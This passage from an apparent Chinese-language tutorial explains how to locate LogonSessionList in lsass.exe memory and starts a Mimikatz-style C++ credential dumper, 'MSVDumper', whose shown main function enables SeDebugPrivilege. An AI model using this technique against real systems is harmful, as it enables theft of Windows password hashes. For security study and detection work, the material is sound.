 在这个例子中，首先扫描出特征码的地址是 `0x18006D4A4`，然后加上 23 个字节定位到保存 `LogonSessionList` 变量的地址，取出偏移量为 `0x119DC1`，因此可以计算出 `LogonSessionList` 变量的地址为 `0x18006D4A4 + Hex(23) + Hex(4) + 0x119DC1 = 0x180187280`，如下图所示位置，可以看到 `LogonSessionList` 是一个 `LIST_ENTRY` 结构体，该结构会在下文中讲到。

![image-20221218113813825](/assets/posts/2023-01-31-sekurlsa-how-to-dump-user-login-credentials-from-msv1_0/image-20221218113813825.png)

同理可以算出 `LogonSessionListCount` 变量的地址。

此外，由于用户的登录凭据属于机密信息，在内存中使用对称加密算法进行加密。为了对获取到的加密凭据进行解密，需要利用与上述相同的方法获取加密密钥和初始化向量。

下面笔者参考 Mimikatz 的代码，通过 C/C++ 编写一个名为 MSVDumper 的工具，用来转储 lsass.exe 进程中的哈希凭据。由于篇幅限制仅描述关键代码部分，相关头文件定义以及各个函数的定义位置请读者自行实现。

# 1. 编写主函数

MSVDumper 的主函数定义如下。主函数启动后，首先会通过 `RtlGetNtVersionNumbers()` 函数获取操作系统版本，并分别赋值常量 `NT_MAJOR_VERSION`、`NT_MINOR_VERSION` 和 `NT_BUILD_NUMBER`。

```c++
DWORD NT_MAJOR_VERSION, NT_MINOR_VERSION, NT_BUILD_NUMBER;

int wmain(int argc, wchar_t* argv[])
{
	HANDLE hToken = NULL;

	RtlGetNtVersionNumbers(&NT_MAJOR_VERSION, &NT_MINOR_VERSION, &NT_BUILD_NUMBER);
	// Open a process token and get a process token handle with TOKEN_ADJUST_PRIVILEGES permission
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		wprintf(L"[-] OpenProcessToken Error [%u].\n", GetLastError());
		return -1;
	}

	if (EnableDebugPrivilege(hToken, SE_DEBUG_NAME))
	{
		if (GetLogonData())
		{
			return 1;
		}
	}
}
```
